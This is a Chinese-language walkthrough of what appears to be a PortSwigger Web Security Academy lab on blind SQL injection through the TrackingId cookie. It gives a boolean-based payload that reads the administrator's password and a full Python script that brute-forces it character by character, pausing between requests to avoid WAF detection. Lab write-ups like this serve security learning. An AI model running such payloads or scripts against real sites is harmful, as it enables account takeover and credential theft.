 即更改请求包的Cookie字段：

```
Cookie: TrackingId=i6xQwpnJkSS7hUrN'%20and%20substring((select%20password%20from%20users%20where%20username%20=%20'administrator'),1,1)='s'--+;
```

如果正确，页面中会返回一个Welcome back，否则不返回Welcome back

写个脚本或者burpsuite爆破

```python
import requests
import string
import time

# URL 和基本信息
url = "https://0abc001d037474cb8057cb9f00f80046.web-security-academy.net/filter?category=Gifts"
session_cookie = "gK5IxdwjPjRvMn9DfmlpncffvkQFLfWN"
original_tracking_id = "3w1lnrR49rIGooyH"

# 字符集（可以根据目标系统调整）
charset = string.ascii_lowercase + string.ascii_uppercase + string.digits

# 响应判定依据：关键字 或 响应长度变化
success_indicator = "Welcome back"  # 可根据实际情况修改（比如页面是否显示某些内容）

def test_char(position, char):
    # 构造注入 payload
    payload = f"{original_tracking_id}' AND substring((select password from users where username='administrator'),{position},1)='{char}'--+"
    payload_encoded = requests.utils.quote(payload)

    # 设置 Cookie
    cookies = {
        "TrackingId": payload_encoded,
        "session": session_cookie
    }

    # 发送请求
    response = requests.get(url, cookies=cookies)

    # 判断是否为 True
    if success_indicator in response.text:
        return True
    return False

def extract_password(max_length=30):
    password = ""
    print("开始爆破管理员密码...")
    for position in range(1, max_length + 1):
        found = False
        for char in charset:
            print(f"[*] 尝试位置 {position} 字符：{char}", end="\r")
            if test_char(position, char):
                password += char
                print(f"[+] 找到第 {position} 位字符：{char}")
                found = True
                break
            time.sleep(0.1)  # 减缓请求频率，避免被WAF检测
        if not found:
            print(f"[!] 第 {position} 位未找到，可能已到末尾，当前密码为：{password}")
            break
    return password

# 执行
```